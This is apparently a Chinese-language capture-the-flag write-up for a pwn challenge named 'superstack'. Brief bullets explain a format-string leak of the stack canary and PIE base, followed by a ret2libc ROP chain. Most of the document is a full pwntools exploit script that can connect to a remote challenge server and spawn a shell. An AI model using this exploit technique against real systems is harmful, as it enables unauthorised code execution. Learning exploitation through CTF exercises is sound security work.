

- 程序开了各种保护，由于只有栈操作，因此要考虑泄露 Canary 和 PIE 来进一步操作
- 通过 IDA 可以直接发现程序存在格式化字符串漏洞
- 通过本地调试计算出偏移量来泄露 Canary 和 PIE



- 通过 IDA 查看 main 汇编可以寻找在 ROP 中用得上的汇编片段
- 利用泄露出来的 PIE 来泄露 puts 函数地址，进而泄露 libc 基地址
- 然后就可以调用 libc 里面的 system 函数执行 /bin/sh，获得 flag

```python
#! python2
import sys

from pwn import *

context.log_level = 'debug'
# ELF("/lib/x86_64-linux-gnu/libc.so.6")

elf = ELF("./superstack/pwn")
libc = ELF("/home/bi0x/ctf/libc-2.23_64.so")
if args['REMOTE']:
    sh = remote('121.43.169.147', 8735)
else:
    sh = process("./superstack/pwn")
sh.recvuntil("name: ")
sh.sendline("%17$lx %18$lx")
sh.sendafter("girlfirend's name: ", "233")

sh.recv(1)
canary = int(sh.recvuntil("00").ljust(8, "0"), 16)
print "canary=>" + hex(canary)
leak_addr = int(sh.recvuntil("\n").strip("\n"), 16)
print hex(leak_addr)
main_off = leak_addr - 0xb50
print "pie =>" + hex(main_off)
pading = "yes\n\x00\x00"
p_rdi_ret = 0x0000000000000bb3 + main_off
p_rsi_r15_ret = 0x0000000000000bb1 + main_off

payload = pading + "a"*(0x20-len(pading)-8) + p64(canary) + \
    "b"*8 + p64(p_rdi_ret) + p64(elf.got['read']+main_off)
payload += p64(elf.plt['puts'] + main_off) + \
    p64(elf.sym['Certify_sincerity']+main_off)

sh.recvuntil("\x00")
sh.sendline(payload)
sh.recvuntil("hundred!\x0a")
libc_read = u64(sh.recv(6).ljust(8, "\x00"))
libc_base = libc_read-libc.symbols['read']
system = libc_base+libc.symbols['system']
binsh = libc_base + libc.search("/bin/sh").next()
payload = pading + "a"*(0x20-len(pading)-8) + p64(canary) + "b" * \
    8 + p64(p_rdi_ret) + p64(binsh) + p64(system) + p64(1)
sh.sendline(payload)
# gdb.attach(sh)
sh.interactive()
print(sh.recv())
```

